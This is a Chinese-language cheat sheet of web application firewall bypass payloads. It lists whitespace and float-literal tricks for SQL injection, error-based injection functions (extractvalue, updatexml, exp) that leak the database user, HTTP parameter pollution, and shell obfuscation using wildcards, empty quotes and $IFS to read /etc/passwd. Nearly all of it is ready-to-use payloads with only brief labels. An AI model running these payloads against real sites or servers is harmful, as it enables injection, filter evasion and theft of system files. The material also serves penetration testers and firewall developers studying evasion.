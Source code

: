 **空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

**hpp 方式**

HPP 是指 HTTP 参数污染.形如以下形式:`?id=1&id=2&id=3` 的形式,此种形式在获取 id 值的时候不同的 web 技术获取的值是不一样的.
假设提交的参数即为:
```
id=1&id=2&id=3

Asp.net + iis:id=1,2,3
Asp + iis:id=1,2,3
Php + apache:id=3

形如 index.php?a=[whitelist]&a=select 1 union select 2
```

**linux变量特性**

利用 * 匹配和 "" 为空白的特性
```
\l\s -l\a\h
""c""at /""**c""/""""**********""a""d******""
cat /e?c/p?ss??
cat /e??/??ss*
l''s
{l<s,}
{ls,-a}

cat</etc/passwd
```

使用空的 shell 变量特性
```
cat$IFS/etc/passwd
cat${IFS}/etc/passwd
IFS=,;`cat<<<cat,/etc/passwd`

c${fuckwaf}at /e${fuckwaf}tc/${fuckwaf}pass${fuckwaf}wd
```

**多重编码**
- [How to hack a company by circumventing its WAF for fun and profit – part 2](https://www.redtimmy.com/web-application-hacking/how-to-hack-a-company-by-circumventing-its-waf-for-fun-and-profit-part-2/) - 通过多重编码绕过 iRules 规则

---